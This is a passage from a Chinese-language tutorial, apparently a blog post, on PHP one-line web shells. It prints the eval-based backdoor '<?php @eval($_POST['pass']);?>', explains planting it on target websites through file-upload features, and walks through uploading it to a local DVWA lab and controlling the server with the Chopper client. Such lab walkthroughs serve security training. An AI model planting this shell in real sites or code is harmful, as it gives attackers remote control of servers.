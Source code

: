 - php:

  ```php
  <?php @eval($_POST['pass']);?>
  ```

其中，pass是这个木马中的密码的值，也可以替换为其他字符。

## 3. 一句话木马运作方式

首先，可以把这个一句话木马插入到一个正常的网站文件中，asp的插入到asp文件里，php的插入到php文件里，其他同理。也可以把木马单独写在一个文件里，比如新建一个php文件，整个php文件内容就只有这一句话。

插入的方法，一般来讲是通过文件上传功能，如作业上传网站、图片上传网站，将木马文件上传到目标网站的服务器 中，再将文件存储的链接添加到菜刀中，输入木马的密码即可直接拿到服务器的控制权。

## 4. 简单的例子

### 编写php木马

```php
<?php @eval($_POST['xxt']);?> 
```

将该php文件命名为 【xxt.php】

### 降低DVWA安全标准

因为这里主要是介绍菜刀的连接方式，为了简便使用没有防备的上传点。

在DVWA漏洞训练平台中，登陆后将DVWA的安全级别调整为low（见红框内）。调整之后选择 File Upload, 进入页面。

![img](https://pic3.zhimg.com/80/v2-381443d25db71eac8b4694a43e87bd7a_720w.png)

### 上传php木马

浏览文件，选择【xxt.php】，点击 Upload 上传。

![img](https://pic3.zhimg.com/80/v2-dd7586fe7d712c460bf4c0258a16a61a_720w.png)

上传成功，显示了文件的保存路径。前两个省略号是指父级目录，因此文件的绝对路径为

[http://127.0.0.1/dvwa-master/hackable/uploads/xxt.php](https://link.zhihu.com/?target=http%3A//127.0.0.1/dvwa-master/hackable/uploads/xxt.php)

### 菜刀连接

打开菜刀，右键—> 添加—>输入绝对路径和密码—>添加

![img](https://pic3.zhimg.com/80/v2-2ad1a31cafac7f0f47871bb86d5e272a_720w.png)

![img](https://pic1.zhimg.com/80/v2-92e754f28b20e5950617bb7586926030_720w.png)

最上方的就是我们刚添加的后门路径，双击即可查看服务器文件夹，并对其操作

![img](https://pic2.zhimg.com/80/v2-e909f9b64f937d6ca2abdf188a6a8135_720w.png)
